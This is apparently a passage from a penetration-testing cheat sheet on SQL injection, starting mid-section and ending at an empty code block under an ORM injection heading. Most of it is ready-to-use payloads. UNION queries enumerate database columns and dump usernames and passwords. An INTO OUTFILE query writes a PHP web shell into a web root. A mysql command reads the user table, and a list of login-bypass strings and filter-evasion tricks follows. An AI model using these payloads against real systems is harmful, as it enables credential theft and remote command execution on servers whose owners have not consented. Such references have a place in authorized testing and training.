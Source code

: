   ```text
  ?id=1 union select 1,2,3,4,column_name,6,7,8,9 from information_schema.columns where table_name = 'users'
  ```

* Get username and password with a delimiter:

  ```text
  id=1 union select 1,2,3,4,concat(name,0x3a,password),6,7,8,9 FROM users
  ```

* Getting a shell

  ```text
  ?id=1 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'
  ```

* Non interactive shell:
* echo 'use mysql; select \* from user;' \| mysql -uroot -h127.0.0.1

SQLI login bypass

* ```text
  -'
  ' '
  '&'
  '^'
  '*'
  ' or ''-'
  ' or '' '
  ' or ''&'
  ' or ''^'
  ' or ''*'
  "-"
  " "
  "&"
  "^"
  "*"
  " or ""-"
  " or "" "
  " or ""&"
  " or ""^"
  " or ""*"
  or true--
  " or true--
  ' or true--
  ") or true--
  ') or true--
  ' or 'x'='x
  ') or ('x')=('x
  ')) or (('x'))=(('x
  " or "x"="x
  ") or ("x")=("x
  ")) or (("x"))=(("x
  ```

## Other tricks

* If space is filtered, you can use /\*\*/ instead
* Sometimes you can bypassfilter by adding a new line; I.e. 123%0aor 1=1
* try boolean sqli using **num=123** vs **num=123--** \(comments out the rest of the query\)

Object to relational mapping \(ORM\) injection

* Try vectors like

  ```text
  ```